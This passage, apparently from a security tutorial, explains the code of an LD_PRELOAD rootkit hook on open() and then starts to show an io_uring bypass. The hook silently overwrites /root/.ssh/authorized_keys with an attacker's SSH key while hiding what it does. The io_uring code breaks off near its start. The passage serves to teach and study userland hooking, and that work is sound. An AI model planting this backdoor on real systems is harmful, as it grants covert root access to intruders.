 If the `O_CREAT` flag is present, we extract the `mode_t` argument from the variadic list.

```c
    if (target(pathname)) {
        int fd = orig_open("/root/.ssh/authorized_keys", O_WRONLY | O_CREAT | O_TRUNC, 0600);
```

If the target file is detected, we open it with write-only, create, and truncate flags. This ensures that previous content is removed.

```c
        const char *sshkey = "ssh-rsa AAAAB3...snip... kali@kali
";
        write(fd, sshkey, strlen(sshkey));
        close(fd);
```

A malicious SSH public key is written into the file, and the file is closed.

```c
        return orig_open("/root/.ssh/authorized_keys", O_RDWR | O_APPEND, 0600);
    }
```    

After the injection, the file is reopened with read/write and append flags, and the resulting file descriptor is returned to the caller, maintaining expected behavior.

```c

    return (flags & O_CREAT) ? orig_open(pathname, flags, mode) : orig_open(pathname, flags);
```

If the file is not one of the targets, the call is passed directly to the original `open()` function, maintaining transparency.

Summary of Behavior:

- **Intercepts calls to open() via LD_PRELOAD**
- **ilters paths that match authorized_keys**
- **Overwrites the file and injects a SSH public key**
- **Reopens the file with appropriate permissions to avoid suspicion**
- **Acts transparently for all other files, mimicking normal behavior**

This behavior demonstrates how dangerous userland hooks can be when used for malicious purposes. However, such rootkits rely entirely on userland mechanisms, which is what io_uring is able to bypass entirely.

## Bypassing the Hook with io_uring

Here, we use `io_uring`to bypass the hooked `open()` function by submitting kernel level I/O requests directly.

Full Code with Explanations:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/uio.h>
#include <linux/io_uring.h>
#include <liburing.h>

#define FILE_PATH "/root/.ssh/authorized_keys"
#define CONTENT "random"

int main() {
    struct io_uring ring;
```